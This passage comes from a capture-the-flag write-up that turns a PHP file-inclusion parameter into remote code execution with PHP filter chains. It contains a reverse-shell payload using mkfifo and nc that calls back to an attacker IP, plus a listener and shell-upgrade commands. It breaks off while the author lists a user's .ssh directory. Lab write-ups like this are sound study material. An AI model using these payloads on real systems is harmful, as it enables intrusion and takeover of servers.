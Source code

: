 This confirms that the `file` parameter is **directly included**, making it **exploitable for RCE**.

## Remote Code Execution (RCE)

Using **PHP filter chains**, we can execute arbitrary commands. We generate a **payload**
using [php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator):

```bash
python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>  '
```

We use the generated payload in the `file` parameter:

```bash
http://10.10.246.171/secret-script.php?file=<generated_payload>
```

The output displays the **PHP info** page, confirming **RCE**.

![RCE](/ctf/tryhackme/cheese-ctf/rce-phpinfo.png)

## Reverse Shell

We generate a **reverse shell** payload:

```bash
python3 php_filter_chain_generator.py --chain '<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.11.125.246 4444 >/tmp/f"); ?>'
```

On our **attacker machine**, we set up a listener:

```bash
nc -lnvp 4444
```

Triggering the payload, we receive a **shell as www-data**:

```bash
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Upgrading to an Interactive Shell

```bash
python3 -c 'import pty;pty.spawn("/bin/bash");'
export TERM=xterm
```

## User Escalation (www-data → comte)

We inspect the **home directories**:

```bash
ls -al /home/comte/.ssh/
```
